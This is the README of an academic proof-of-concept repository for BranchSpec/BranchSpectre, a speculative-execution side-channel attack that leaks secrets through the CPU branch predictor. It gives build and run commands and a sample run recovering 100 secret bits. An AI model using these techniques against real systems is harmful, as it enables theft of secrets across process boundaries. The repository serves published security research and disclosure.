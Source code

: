 # BranchSpec: Leaking Sensitive Information through Speculative Branch Instruction Executions

This repository contains proof-of-concept of information leakage attacks exploiting branch instruction executions in speculative path. The key observation is that speculative resolution of conditional branches (i.e., in nested speculation) alter the states of pattern history table (PHT) in modern processors. Such changes are not restored after the corresponding branches are later squashed. This characteristic allows attackers to exploit the BPU as the secret transmitting medium in transient execution attacks, which we call as BranchSpectre. Two variants of the BranchSpectre attacks (BranchSpectre-v1 and BranchSpectre-v2) are demonstrated in this repo. More details about BranchSpectre can be found in our paper published in IEEE Transactions of Computers. The original conference paper can be found [paper](http://fan-yao.com/paper/2020_ICCD_branchspec.pdf). Our work can be cited using the following information:

```bibtex
@ARTICLE {branchspectre2021,
  author = {Chowdhuryy, Md Hafizul Islam and Yao, Fan},
  journal = {IEEE Transactions on Computers (TC)},
  title = {Leaking Secrets through Modern Branch Predictor in the Speculative World},
  year = {2021},
  issn = {1557-9956},
  doi = {10.1109/TC.2021.3122830},
  publisher = {IEEE Computer Society},
}

@inproceedings{branchspec2020,
  title={{BranchSpec: Information Leakage Attacks Exploiting Speculative Branch Instruction Executions}},
  author={Chowdhuryy, Md Hafizul Islam and Liu, Hang and Yao, Fan},
  booktitle={IEEE International Conference on Computer Design (ICCD)},
  pages={529--536},
  year={2020}
}
```

## Environment

- **Operating System:** Ubuntu 18.04.5 LTS
- **Kernel:** 5.4.0-42-generic
- **GCC:** 7.5.0

## Variants

This repository contains PoC code for both one-level prediction and history-based prediction attacks using BranchSpec-v1, gadget search tool for BranchSpec-v2 and utilites to determine condition for GHR flushing in history-based prediction and activation condition of history-based prediction.

## Repo overview
- BranchSpec-v1
    - one_level_prediction
        - PoC v1: Nested if conditional, single-threaded
        - PoC v2: Nested for loop, multi-threaded
    - history_based_prediction
        - PoC v1: Nested if conditional, multi-threaded
        - PoC v2: Nested if conditional, calibration
- BranchSpec-v2
    - Gadget search tool 
- Utils
    - GHR Flush: Determine GHR flush length
    - History-based prediction activation: Determine activation criterion for history-based prediction

## Building

This project uses GNU Make, GCC and nasm to compile. On Ubuntu, you can install them using:

```bash
sudo apt-get install build-essential
sudo apt-get install nasm
```

Steps to reproduce the vulnerability:

```bash
# Clone the repository
git clone https://github.com/fanyao/branchspec

# cd into the source directory
cd branchspec/one_level_prediction

# build the binaries
make all

# run the binaries using taskset to pin into one core
taskset 0x02 ./poc_v1
```

Note: Change the <code>THRESHOLD</code> in line 36 of the source file (i.e., BranchSpec-v1>one_level_prediction>poc_v1.c) according to your system.

## Executing

```bash
taskset 0x04 ./poc_v1
```
<details>
    <summary> Example output (<i>click to expand</i>)</summary>
    
```
Transmitting secret...
Secret value, secret[0]: 0; Inferred: 0; Latency: 145
Secret value, secret[1]: 1; Inferred: 1; Latency: 129
Secret value, secret[2]: 0; Inferred: 0; Latency: 149
Secret value, secret[3]: 0; Inferred: 0; Latency: 145
Secret value, secret[4]: 1; Inferred: 1; Latency: 125
Secret value, secret[5]: 0; Inferred: 0; Latency: 145
Secret value, secret[6]: 1; Inferred: 1; Latency: 131
Secret value, secret[7]: 1; Inferred: 1; Latency: 129
Secret value, secret[8]: 1; Inferred: 1; Latency: 125
Secret value, secret[9]: 0; Inferred: 0; Latency: 148
Secret value, secret[10]: 1; Inferred: 1; Latency: 127
Secret value, secret[11]: 1; Inferred: 1; Latency: 129
Secret value, secret[12]: 0; Inferred: 0; Latency: 147
Secret value, secret[13]: 1; Inferred: 1; Latency: 127
Secret value, secret[14]: 1; Inferred: 1; Latency: 127
Secret value, secret[15]: 0; Inferred: 0; Latency: 147
Secret value, secret[16]: 1; Inferred: 1; Latency: 127
Secret value, secret[17]: 0; Inferred: 0; Latency: 147
Secret value, secret[18]: 0; Inferred: 0; Latency: 147
Secret value, secret[19]: 1; Inferred: 1; Latency: 127
Secret value, secret[20]: 0; Inferred: 0; Latency: 145
Secret value, secret[21]: 0; Inferred: 0; Latency: 147
Secret value, secret[22]: 0; Inferred: 0; Latency: 147
Secret value, secret[23]: 1; Inferred: 1; Latency: 129
Secret value, secret[24]: 1; Inferred: 1; Latency: 127
Secret value, secret[25]: 1; Inferred: 1; Latency: 127
Secret value, secret[26]: 1; Inferred: 1; Latency: 127
Secret value, secret[27]: 1; Inferred: 1; Latency: 127
Secret value, secret[28]: 1; Inferred: 1; Latency: 129
Secret value, secret[29]: 1; Inferred: 1; Latency: 129
Secret value, secret[30]: 1; Inferred: 1; Latency: 125
Secret value, secret[31]: 1; Inferred: 1; Latency: 129
Secret value, secret[32]: 0; Inferred: 0; Latency: 147
Secret value, secret[33]: 1; Inferred: 1; Latency: 127
Secret value, secret[34]: 0; Inferred: 0; Latency: 143
Secret value, secret[35]: 1; Inferred: 1; Latency: 129
Secret value, secret[36]: 0; Inferred: 0; Latency: 143
Secret value, secret[37]: 1; Inferred: 1; Latency: 131
Secret value, secret[38]: 1; Inferred: 1; Latency: 125
Secret value, secret[39]: 1; Inferred: 1; Latency: 127
Secret value, secret[40]: 0; Inferred: 0; Latency: 147
Secret value, secret[41]: 1; Inferred: 1; Latency: 127
Secret value, secret[42]: 0; Inferred: 0; Latency: 147
Secret value, secret[43]: 1; Inferred: 1; Latency: 129
Secret value, secret[44]: 0; Inferred: 0; Latency: 149
Secret value, secret[45]: 1; Inferred: 1; Latency: 125
Secret value, secret[46]: 0; Inferred: 0; Latency: 145
Secret value, secret[47]: 1; Inferred: 1; Latency: 127
Secret value, secret[48]: 0; Inferred: 0; Latency: 145
Secret value, secret[49]: 1; Inferred: 1; Latency: 127
Secret value, secret[50]: 0; Inferred: 0; Latency: 145
Secret value, secret[51]: 0; Inferred: 0; Latency: 147
Secret value, secret[52]: 1; Inferred: 1; Latency: 125
Secret value, secret[53]: 1; Inferred: 1; Latency: 129
Secret value, secret[54]: 0; Inferred: 0; Latency: 147
Secret value, secret[55]: 1; Inferred: 1; Latency: 127
Secret value, secret[56]: 1; Inferred: 1; Latency: 125
Secret value, secret[57]: 0; Inferred: 0; Latency: 147
Secret value, secret[58]: 1; Inferred: 1; Latency: 129
Secret value, secret[59]: 0; Inferred: 0; Latency: 147
Secret value, secret[60]: 1; Inferred: 1; Latency: 125
Secret value, secret[61]: 0; Inferred: 0; Latency: 148
Secret value, secret[62]: 0; Inferred: 0; Latency: 143
Secret value, secret[63]: 1; Inferred: 1; Latency: 127
Secret value, secret[64]: 0; Inferred: 0; Latency: 147
Secret value, secret[65]: 1; Inferred: 1; Latency: 129
Secret value, secret[66]: 0; Inferred: 0; Latency: 148
Secret value, secret[67]: 1; Inferred: 1; Latency: 125
Secret value, secret[68]: 1; Inferred: 1; Latency: 127
Secret value, secret[69]: 0; Inferred: 0; Latency: 147
Secret value, secret[70]: 1; Inferred: 1; Latency: 129
Secret value, secret[71]: 0; Inferred: 0; Latency: 149
Secret value, secret[72]: 0; Inferred: 0; Latency: 146
Secret value, secret[73]: 1; Inferred: 1; Latency: 127
Secret value, secret[74]: 1; Inferred: 1; Latency: 125
Secret value, secret[75]: 0; Inferred: 0; Latency: 146
Secret value, secret[76]: 1; Inferred: 1; Latency: 129
Secret value, secret[77]: 0; Inferred: 0; Latency: 146
Secret value, secret[78]: 1; Inferred: 1; Latency: 129
Secret value, secret[79]: 0; Inferred: 0; Latency: 146
Secret value, secret[80]: 0; Inferred: 0; Latency: 149
Secret value, secret[81]: 0; Inferred: 0; Latency: 147
Secret value, secret[82]: 0; Inferred: 0; Latency: 147
Secret value, secret[83]: 0; Inferred: 0; Latency: 147
Secret value, secret[84]: 1; Inferred: 1; Latency: 131
Secret value, secret[85]: 0; Inferred: 0; Latency: 146
Secret value, secret[86]: 1; Inferred: 1; Latency: 129
Secret value, secret[87]: 0; Inferred: 0; Latency: 147
Secret value, secret[88]: 0; Inferred: 0; Latency: 147
Secret value, secret[89]: 0; Inferred: 0; Latency: 147
Secret value, secret[90]: 0; Inferred: 0; Latency: 145
Secret value, secret[91]: 1; Inferred: 1; Latency: 129
Secret value, secret[92]: 1; Inferred: 1; Latency: 127
Secret value, secret[93]: 1; Inferred: 1; Latency: 127
Secret value, secret[94]: 0; Inferred: 0; Latency: 147
Secret value, secret[95]: 0; Inferred: 0; Latency: 147
Secret value, secret[96]: 0; Inferred: 0; Latency: 147
Secret value, secret[97]: 1; Inferred: 1; Latency: 127
Secret value, secret[98]: 1; Inferred: 1; Latency: 127
Secret value, secret[99]: 1; Inferred: 1; Latency: 129
Total bit sent: 100, Total Error: 0, Threshold: 138
```
</details>
